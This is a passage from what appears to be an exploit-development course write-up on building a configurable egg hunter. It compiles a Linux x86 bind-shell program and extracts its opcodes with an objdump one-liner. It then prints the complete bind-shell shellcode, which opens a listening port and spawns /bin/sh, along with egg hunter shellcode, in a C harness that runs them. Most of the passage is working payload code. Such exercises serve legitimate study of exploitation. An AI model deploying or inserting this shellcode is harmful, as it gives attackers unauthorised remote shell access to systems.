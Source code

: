 ## 3) Step 3: make the egg hunter easily configurable for different payloads
For this part, we will use the bind_shell.nasm code from the assignment#1.

We first need to compile it:
```console
kali@kali:/tmp$ nasm -f elf32 -o bind_shell.o bind_shell.nasm
kali@kali:/tmp$ ld -m elf_i386 -z execstack -o bind_shell bind_shell.o
```

We can obtain the hexadecimal representation of the previous code by using the following command:
```console
kali@kali:/tmp$ objdump -d ./bind_shell |grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'

"\x89\xe5\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x50\x50\x50\x66\x68\x11\x5c\x66\x6a\x02\x66\xb8\x67\x01\xb3\x02\xb1\x01\xcd\x80\x89\xc7\x31\xc0\x66\xb8\x69\x01\x89\xfb\x89\xe1\x89\xea\x29\xe2\xcd\x80\x31\xc0\x66\xb8\x6b\x01\x89\xfb\x31\xc9\xcd\x80\x31\xc0\x66\xb8\x6c\x01\x89\xfb\x31\xc9\x31\xd2\x31\xf6\xcd\x80\x89\xc6\xb1\x03\x31\xc0\xb0\x3f\x89\xf3\xfe\xc9\xcd\x80\xfe\xc1\xe2\xf2\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\xb0\x0b\x89\xe3\x31\xc9\x31\xd2\xcd\x80"
```

We will use exactly the same C code has shown before to test a different payload. In this case our bind shell.
```c
#include <stdio.h>
#include <string.h>

// egg_hunter.nasm shellcode is stored here
unsigned char egg_hunter[] = \
"\x31\xc9\xf7\xe1\x66\x81\xca\xff\x0f\x42\x8d\x5a\x04\x6a\x21\x58\xcd\x80\x3c\xf2\x74\xee\xb8\x90\x50\x90\x50\x89\xd7\xaf\x75\xe9\xaf\x75\xe6\xff\xe7";

// the bind shell code is stored inside this variable precede by two eggs
unsigned char shellcode[] = \
"\x90\x50\x90\x50" // first egg
"\x90\x50\x90\x50" // second egg
"\x89\xe5\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x50\x50\x50\x66\x68\x11\x5c\x66\x6a\x02\x66\xb8\x67\x01\xb3\x02\xb1\x01\xcd\x80\x89\xc7\x31\xc0\x66\xb8\x69\x01\x89\xfb\x89\xe1\x89\xea\x29\xe2\xcd\x80\x31\xc0\x66\xb8\x6b\x01\x89\xfb\x31\xc9\xcd\x80\x31\xc0\x66\xb8\x6c\x01\x89\xfb\x31\xc9\x31\xd2\x31\xf6\xcd\x80\x89\xc6\xb1\x03\x31\xc0\xb0\x3f\x89\xf3\xfe\xc9\xcd\x80\xfe\xc1\xe2\xf2\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\xb0\x0b\x89\xe3\x31\xc9\x31\xd2\xcd\x80";

void main()
{
	// print the length of the shellcodes
	printf("Egg hunter shellcode length:  %d\n", strlen(egg_hunter));
	printf("Shellcode length:  %d\n", strlen(shellcode));

	// convert shellcode to a function
	int (*ret)() = (int(*)())egg_hunter;

	// execute the shellcode
	ret();

}
```
